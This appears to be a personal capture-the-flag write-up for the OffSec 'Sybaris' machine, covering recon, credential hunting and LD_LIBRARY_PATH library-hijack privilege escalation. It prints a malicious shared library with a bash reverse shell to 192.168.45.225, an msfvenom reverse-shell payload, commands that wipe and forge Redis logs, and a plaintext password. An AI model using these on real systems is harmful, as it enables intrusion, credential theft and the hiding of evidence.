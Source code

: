 # Sybaris Helped Through

Name: Sybaris
Date:  
Difficulty: Medium
Goals:  
TJNULL box a day till I am iron out every tiny imperfection in my thinking
Learnt:
- Recent box was similar issue- its not rabbitholing CTFs its just OFFSEC being these are actually pieces 
Beyond Root:

- [[Sybaris-Notes.md]]
- [[Sybaris-CMD-by-CMDs.md]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)
	
## Exploit

## Foothold

## Privilege Escalation

```
find . -type f -name "*.*onf*" 2>/dev/null | xargs grep -ie 'passw'
```
wpawifilessconf.png

iniparse.png

Interesting files of a User
```
find / -user $USER -ls 2>/dev/null | grep -v '/run/\|/proc/\|/sys/'
```
pabloisfilepoor.png

![](badopsec.png)

Log clean Cleanup
```bash
echo "" > /var/log/redis/redis-server.log 
echo "1937:C 02 Nov 2023 16:35:22.932 # Redis version=5.0.9, bits=64, commit=00000000, modified=0, pid=1937, just started" > /var/log/redis/redis-server.log
echo "1937:C 02 Nov 2023 16:35:22.932 # Configuration loaded" | tee -a /var/log/redis/redis-server.log
```

wtfissuexec.png

python2asroot.png

pablospassword.png

```
admin : PostureAlienateArson345
```

ssh.png

the config.ini contains the plugin and implies use
foundthepluginthatbugged.png

pablo has no sudo privileges
pablonosudo.png

weirdmysqlcnf.png

weirdport25onlocalhost.png

libdevdir.png

Peaking at the Writeup as prompt for time. the cronjob is the way forward.
[LD_LIBARARY_PATH article](https://www.hpc.dtu.dk/?page_id=1180)  

*`LD_LIBRARY_PATH` tells the dynamic link loader (ld. so – this little program that starts all your applications) where to search for the dynamic shared libraries an application was linked against.*

This basically the Linux equivalent of DLL Hijacking. Sad tiny red fedora hats m'LD all round when you can replicate a Windows Vulnerability on Linux. 
notarealmanpage.png


This is [baeldung - show-shared-libraries-executables](https://www.baeldung.com/linux/show-shared-libraries-executables)
ldenum.png


```bash
# ldd
ldd $FILE
# objdump
objdump -p $FILE | grep 'NEEDED'
# readelf
readelf --dynamic $FILE | grep NEEDED

# find the pid and checking /proc maps file
pgrep $target
cat /proc/$PID/maps 
awk '$NF!~/\.so/{next} {$0=$NF} !a[$0]++' /proc/$PID/maps 
```

noutils.png

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example
```
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);
}
```

We wont get the shell - my c reading is still on point and brain is actually working
https://man7.org/linux/man-pages/man3/system.3.html
```
//gcc -shared -o utils.so -fPIC utils.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);
}
```

sadness.png

I also changed it to `sh` for the reverse shell above, I tried `/dev/shm/shell.sh` that pointed just, but that filed. 

Having almost not used `msfvenom` since I realised that it is signatured into the ground on windows systems and then you need to transfer the binary - AND there is the its another OFFSEC machine where use the PIECES they arent all rabbit holes 
```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali LPORT=6379
```

root.png
## Post-Root-Reflection  

.so libraries the machine has reinforced my need to think about how to correctly contextualise CTFy pieces. 

## Beyond Root

Understanding `make` - why does ` system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);` not work
```
make -C ./src
```